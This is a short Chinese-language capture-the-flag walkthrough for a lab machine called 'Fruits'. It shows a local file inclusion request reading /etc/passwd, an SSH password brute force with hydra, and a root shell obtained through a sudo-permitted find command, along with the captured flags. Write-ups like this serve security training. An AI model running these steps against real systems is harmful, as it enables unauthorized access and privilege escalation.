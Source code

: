 # Fruits

2025.03.07 https://thehackerslabs.com/fruits/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

首页上的提交显示 404，扫描出新的 url http://192.168.5.39/fruits.php 空白页面，进行参数 FUZZ，找到参数 file ，存在文件包含可以读取到 passwd : curl -s http://192.168.5.39/fruits.php?file=/etc/passwd , 发现一个普通用户 bananaman 。

在尝试 FUZZ 读取其他文件，都读不到，只好 hydra 爆一下这个用户 bananaman 的登陆密码，发现密码: celtic , ssh 进行登陆。

先拿到了 user flag：

```
bananaman@Fruits:~$ cat user.txt
482c811da5d5b4bc6d497ffa98491e38
```

sudo 显示 (ALL) NOPASSWD: /usr/bin/find 直接提权到 root：

```
sudo find . -exec /bin/sh \; -quit
```

拿到 root flag:

```
# cat root.txt
21232f297a57a5a743894a0e4a801fc3
```
